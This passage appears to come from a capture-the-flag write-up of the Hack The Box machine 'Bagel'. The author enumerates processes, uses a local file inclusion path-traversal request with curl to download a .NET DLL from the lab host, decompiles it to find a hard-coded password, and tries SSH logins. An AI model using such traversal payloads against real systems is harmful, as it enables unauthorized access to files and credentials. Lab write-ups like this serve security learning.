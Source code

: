 I ran it and found where the application was located.

```bash
$ ./get_processes.py
1 - /usr/lib/systemd/systemdrhgb--switched-root--system--deserialize35
759 - /usr/lib/systemd/systemd-journald
772 - /usr/lib/systemd/systemd-udevd
851 - /sbin/auditd
852 - /sbin/auditd
853 - /usr/lib/systemd/systemd-oomd

...

890 - dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
892 - python3/home/developer/app/app.py

...

923 - dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
924 - dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll

...
```

I used the LFI to download it.

```bash
curl "http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll" -o bagel.dll
```

I then launched a Windows VM and used [dnSpy](https://github.com/dnSpy/dnSpy) to read the .NET code.

The first thing that caught my eyes was a password in the DB class.

![DB](/assets/images/2023/06/Bagel/ClassDB.png "DB")

I tried to SSH as both users. But as the comment from the Python file said, I needed an SSH key to connect.

```bash
$ ssh phil@target
phil@target: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).

$ ssh developer@target
developer@target: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```
